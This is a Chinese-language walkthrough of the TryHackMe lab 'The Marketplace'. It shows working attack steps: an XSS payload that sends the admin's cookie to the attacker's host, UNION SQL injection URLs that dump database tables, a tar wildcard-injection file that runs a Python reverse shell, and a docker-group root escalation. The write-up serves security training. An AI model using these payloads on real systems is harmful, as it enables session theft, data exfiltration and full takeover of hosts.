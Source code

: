 ```yaml
---
sidebar_position: 90
tags: [Easy, Linux, SQLI, SUDO, docker]
title: "The Marketplace"
description: "The Marketplace"
sidebar_label: "The Marketplace"
slug: /tryhackme/90
---
```

# The Marketplace
## 端口扫描

```bash
root@ip-10-10-115-253:~/marketplace# nmap -sTCV  -p 22,80,32768 --min-rate 1000 10.10.66.167

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-13 12:54 BST
Nmap scan report for ip-10-10-66-167.eu-west-1.compute.internal (10.10.66.167)
Host is up (0.00014s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (EdDSA)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
MAC Address: 02:F5:73:6C:93:E3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

## 80 
访问页面后, 我经过了简单的搜查判定需要进行 XSS 来盗取管理员的 Cookie 内容, 结合分析唯一一种可以将我们提交的内容推送到管理员的方式是举报一个文章, 所以我尝试创建一个文章并进行举报

```bash
<script>fetch("http://10.10.115.253:8000/"+document.cookie)</script>
```

![20240703215903](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215903.png)

当创建之后直接举报我们的文章, 并查看我们的消息,因为当管理员查看后会给我们发请求, 请求数据为其 cookie , 如下所示

![20240703215914](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215914.png)

获取到管理员的cookie 后进行登陆, 经过简单的搜索后我发现其在查看用户的位置, 存在 SQL 注入漏洞

![20240703220106](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703220106.png)

很明显 union 联合注入

![20240703220116](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703220116.png)

```bash
http://10.10.133.138/admin?user=0 union select 1,database(),3,4
http://10.10.133.138/admin?user=0 union select 1,group_concat(table_name),3,4 from information_schema.tables  where table_schema='marketplace'
http://10.10.133.138/admin?user=0 union select 1,group_concat(column_name),3,4 from information_schema.columns  where table_name='users'    --> id,username,password,isAdministrator

http://10.10.133.138/admin?user=0 union select 1,group_concat(column_name),3,4 from information_schema.columns  where table_name='messages' -->  id,user_from,user_to,message_content,is_read 
http://10.10.133.138/admin?user=0 union select 1,group_concat(id, '==', message_content),3,4 from messages
```

在这里从users 表中得到的数据我并不能破解哈希, 查看 messages 表时我发现其中有关于 SSH 登陆的内容

![20240703220127](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703220127.png)

## 后渗透
### jake
使用上面得到的密码进行测试看看是哪个用户的

![20240703220143](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703220143.png)

使用得到的密码进行 SSH 登陆

```bash
root@ip-10-10-115-253:~/marketplace# ssh jake@10.10.66.167.
jake@10.10.66.167's password: 
......

jake@the-marketplace:~$ id
uid=1000(jake) gid=1000(jake) groups=1000(jake)
```

### jake —> michael
我发现 jake 用户可以以 michael 的身份运行一个脚本

![20240703220218](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703220218.png)

结合 `backup.sh` 文件, 我开始尝试了通配符利用

```bash
jake@the-marketplace:/opt/backups$ rm -rf backup.tar
jake@the-marketplace:/opt/backups$ cat << EOF >michel.sh 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.115.253",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
EOF
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh michel.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
Backing up files...
```

然后就可以得到一个 Shell

![20240703220237](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703220237.png)

### michael —> root
我发现用户是 docker 组用户, 所以我使用 docker 进行了提权

```bash
(remote) michael@the-marketplace:/home/michael$ 
docker images(remote) michael@the-marketplace:/home/michael$ docker images
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        3 years ago         2.16GB
nginx                        latest              4bb46517cac3        3 years ago         133MB
node                         lts-buster          9c4cc2688584        3 years ago         886MB
mysql                        latest              0d64f46acfd1        3 years ago         544MB
alpine                       latest              a24bb4013296        3 years ago         5.57MB
(remote) michael@the-marketplace:/$ docker run -it --rm -v /:/mnt mysql sh
root@cc8ffe0deb9e:/# id
uid=0(root) gid=0(root) groups=0(root)
```